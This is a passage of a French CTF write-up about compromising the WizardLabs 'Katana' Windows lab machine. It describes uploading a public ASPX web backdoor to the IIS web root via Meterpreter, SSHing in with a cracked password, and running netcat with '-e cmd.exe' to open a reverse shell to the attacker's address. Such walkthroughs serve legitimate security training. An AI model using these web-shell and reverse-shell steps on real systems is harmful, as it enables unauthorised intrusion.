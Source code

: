 Comment bypasser ça ? J'airais bien misé sur [Chankro](https://github.com/TarlogicSecurity/Chankro) comme pour [le CTF Darknet](http://devloop.users.sourceforge.net/index.php?article160/solution-du-ctf-darknet-de-vulnhub) mais il ne semble pas supporter Windows.  

Pour peu que l'on dispose de suffisamment de droits sur le système de fichier on peut tenter d'écrire sur la racine web du IIS (*c:\inetpub\wwwroot*) et faire fonctionner l'interpréteur asp/aspx.  

J'ai uploadé [cette backdoor ASPX](https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/asp/cmd.aspx) via la session Meterpreter et boum ! A nous l'exécution de commandes :)  

![WizardLabs CTF Katana ASPX web backdoor](https://github.com/devl00p/blog/raw/master/images/wizard-labs/katana/katana_webshell.png)

Sans trop de surprises on a une exécution avec les droits *katana\www* et toujours pas de flag utilisateur :(  

Les process montrent la présence d'un serveur SSH :  

```plain
ssh.exe                       8100                            0        100 K
conhost.exe                   7684                            0        488 K
sshd.exe                      2516                            0         96 K
sshd.exe                      4212                            0        100 K
conhost.exe                   6244                            0        480 K
sshd.exe                      7388                            0         96 K
ssh-shellhost.exe             7528                            0        136 K
```

Bonne nouvelle, le port forwarding de notre Meterpreter fonctionne et on peut alors se connecter avec le compte *antoine* (dont on a cassé le mot de passe plus tôt) sur le système.  

La joie est malheureusement de courte durée car la session très vite interrompue, peut être liée à l'exécution de PHP...  

La solution est d'uploader un netcat sur le système est de le lancer via SSH ce qui nous permet d'avoir un reverse shell stable :  

```plain
ssh -p 2223 antoine@127.0.0.1 'c:\wamp64\nc64.exe -e cmd.exe 10.254.0.29 9999'
```
